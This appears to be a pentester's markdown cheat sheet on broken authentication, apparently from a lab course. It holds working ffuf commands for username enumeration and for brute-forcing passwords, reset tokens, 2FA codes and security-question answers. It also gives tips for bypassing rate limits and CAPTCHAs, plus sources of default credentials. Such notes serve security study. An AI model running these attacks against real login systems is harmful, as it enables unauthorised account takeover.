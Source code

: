 # Broken Authentication

## Categories of Authentication

- Knowledge: passwords, PINs, Answer to Security Question
- Ownership: ID cards, TOTP, Authenticator App, Security Token
- Inherence: Biometric authentication

## Brute-Force Attacks

- User Enumeration 
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
- Brute-Forcing Passwords
```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password"
```
- Brute-Forcing Password Reset Tokens (example based on weak 4 digit reset token sent via email)
```bash
seq -w 0 9999 > tokens.txt # -w pads numbers with prepending zeros
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
- Brute-Forcing 2FA Codes (example based on weak 4 digit TOTP token)
```bash
seq -w 0 9999 > tokens.txt
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

## Bypassing Brute-Force Protection

- **Rate Limit**: X-Forwarded-For HTTP Header can be randomised
- **CAPTCHAs**: Look for CAPTCHA solution in HTML code

## Password Attacks

- **Default Credentials**
  - [CIRT.net](https://cirt.net/passwords/)
  - SecLists Default Credentials (SecLists\Passwords\Default-Credentials\)
  - [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master)
- **Vulnerable Password Reset**
  - Guessable Security Questions (for example brute force [world cities](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv))
  ```bash
  cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt # all world cities
  cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt # just german cities
  ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
  ```
  - Username Injection in Password Reset Request (check post parameters in http request)

## Authentication Bypasses

- Accessing the protected page directly
- Manipulating HTTP Parameters to access protected pages

## Session Attacks

- Brute-Forcing cookies with insufficient entropy
- **Session Fixation**
  - Attacker obtains valid session identifier
  - Attacker coerces victim to use this session identifier (social engineering)
  - Victim authenticates to the vulnerable web application
  - Attacker knows the victim's session identifier and can hijack their account
- **Improper Session Timeout**
  - Sessions should expire after an appropriate time interval
  - Session validity duration depends on the web application